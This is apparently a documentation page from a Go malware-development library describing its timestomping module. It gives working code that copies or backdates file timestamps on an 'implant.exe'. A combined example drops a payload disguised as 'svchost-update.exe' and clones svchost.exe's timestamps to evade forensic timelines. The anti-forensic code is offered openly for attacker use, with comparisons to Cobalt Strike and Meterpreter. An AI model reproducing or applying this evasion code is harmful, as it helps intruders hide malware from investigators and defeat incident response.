


# Timestomping

[<- Back to Cleanup Overview](README.md)

**MITRE ATT&CK:** [T1070.006 - Indicator Removal: Timestomp](https://attack.mitre.org/techniques/T1070/006/)
**D3FEND:** [D3-FHA - File Hash Analysis](https://d3fend.mitre.org/technique/d3f:FileHashAnalysis/)

---

## For Beginners

Every file on Windows has three timestamps: creation time, last access time, and last modification time. Forensic investigators use these timestamps to build timelines of attacker activity -- "this file was created at 2:00 AM, which matches the breach window."

**Changing the "date modified" on your homework to make it look like you did not do it last night.** Timestomping overwrites these timestamps with values that blend in -- either copying timestamps from a legitimate system file or setting them to a specific date that predates the investigation window.

---

## How It Works

### Timestamp Manipulation Flow



### Windows File Time API



---

## Usage

### Copy Timestamps from a System File

```go
import "github.com/oioio-space/maldev/cleanup/timestomp"

// Copy all three timestamps from notepad.exe to implant.exe
err := timestomp.CopyFromFull(
    `C:\Windows\System32\notepad.exe`,  // source
    `C:\temp\implant.exe`,              // destination
)
```

### Set Specific Timestamps

```go
import (
    "time"
    "github.com/oioio-space/maldev/cleanup/timestomp"
)

// Set all three timestamps to a specific date
target := time.Date(2023, 6, 15, 10, 30, 0, 0, time.UTC)
err := timestomp.SetFull(
    `C:\temp\implant.exe`,
    target,  // creation time
    target,  // access time
    target,  // modification time
)
```

### Backdate to Before Investigation Window

```go
// Make the file look like it was created months ago
creation := time.Date(2023, 3, 10, 14, 22, 0, 0, time.UTC)
access := time.Date(2024, 1, 5, 9, 15, 0, 0, time.UTC)
modified := time.Date(2023, 3, 10, 14, 22, 0, 0, time.UTC)

err := timestomp.SetFull(`C:\temp\implant.exe`, creation, access, modified)
```

---

## Combined Example: Drop + Timestomp + Execute

```go
package main

import (
    "os"
    "time"

    "github.com/oioio-space/maldev/cleanup/timestomp"
)

func main() {
    // Drop payload to disk
    payload := []byte{/* ... */}
    targetPath := `C:\Windows\Temp\svchost-update.exe`
    os.WriteFile(targetPath, payload, 0644)

    // Timestomp to match legitimate svchost.exe
    timestomp.CopyFromFull(`C:\Windows\System32\svchost.exe`, targetPath)

    // Alternative: set to a specific historical date
    // timestomp.SetFull(targetPath,
    //     time.Date(2019, 12, 7, 9, 0, 0, 0, time.UTC),
    //     time.Date(2024, 2, 1, 8, 0, 0, 0, time.UTC),
    //     time.Date(2019, 12, 7, 9, 0, 0, 0, time.UTC),
    // )
}
```

---

## Advantages & Limitations

### Advantages

- **Native Windows API**: Uses `SetFileTime` via `x/sys/windows` -- no custom syscalls needed
- **All three timestamps**: Sets creation, access, and modification simultaneously
- **Clone mode**: `CopyFromFull` duplicates timestamps from any readable file
- **Precise control**: `SetFull` accepts `time.Time` for nanosecond precision
- **Cross-platform timestomp.go**: Generic timestomp interface (Windows implementation via SetFileTime)

### Limitations

- **$MFT timestamps**: Windows stores both $STANDARD_INFORMATION and $FILE_NAME timestamps -- `SetFileTime` only modifies $STANDARD_INFORMATION; $FILE_NAME timestamps in the MFT are updated by the filesystem
- **USN Journal**: Timestamp changes create USN Journal entries that forensics tools can detect
- **$LogFile**: NTFS transaction log records the timestamp modification
- **Event logs**: Some EDR products log `SetFileTime` calls
- **Requires write access**: `FILE_WRITE_ATTRIBUTES` permission needed on the target file

---

## Compared to Other Implementations

| Feature | maldev (timestomp) | PowerShell | Cobalt Strike | Meterpreter |
|---------|-------------------|------------|---------------|-------------|
| Language | Go | PowerShell | Java/C | C |
| All 3 timestamps | Yes | Yes | Yes | Yes |
| Clone from file | Yes | Manual | Yes | Yes |
| Custom times | Yes | Yes | Yes | Yes |
| $FILE_NAME stomp | No | No | No | Yes (NtSetInformationFile) |
| USN-aware | No | No | No | No |

---

## API Reference

### Functions

```go
// CopyFromFull copies creation, access, and modification times from src to dst.
func CopyFromFull(src, dst string) error

// SetFull sets creation, access, and modification times on a file.
func SetFull(path string, ctime, atime, mtime time.Time) error
```
